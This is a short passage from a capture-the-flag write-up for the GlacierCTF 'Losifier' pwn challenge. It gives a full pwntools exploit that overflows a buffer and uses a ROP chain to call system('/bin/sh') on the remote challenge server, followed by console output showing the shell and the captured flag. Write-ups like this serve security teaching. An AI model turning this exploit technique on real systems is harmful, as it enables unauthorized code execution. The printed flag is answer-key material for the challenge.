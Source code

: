 The full exploit script then ends up as the following.
```python
from pwn import *

exe = context.binary = ELF("./chall", checksec=False)
# io = process(exe.path)
io = remote("chall.glacierctf.com", 13392)

rop = ROP(exe)                               # Create ROP payload
rop.raw(b"A"*85)                             # Offset
rop.raw(rop.ret.address)                     # Stack alignment
rop.system(next(exe.search(b"/bin/sh\x00"))) # system("/bin/sh")

io.sendline(rop.chain())
io.interactive()
```
{: file="exploit.py" }

```console
loevland@hp-envy:~/ctf/glacier/pwn/Losifier$ python3 exploit.py
[+] Opening connection to chall.glacierctf.com on port 13392: Done
[*] Loaded 133 cached gadgets for './chall'
[*] Switching to interactive mode
$ ls
app
flag.txt
$ cat flag.txt
gctf{l0ssp34k_UwU_L0v3U}
```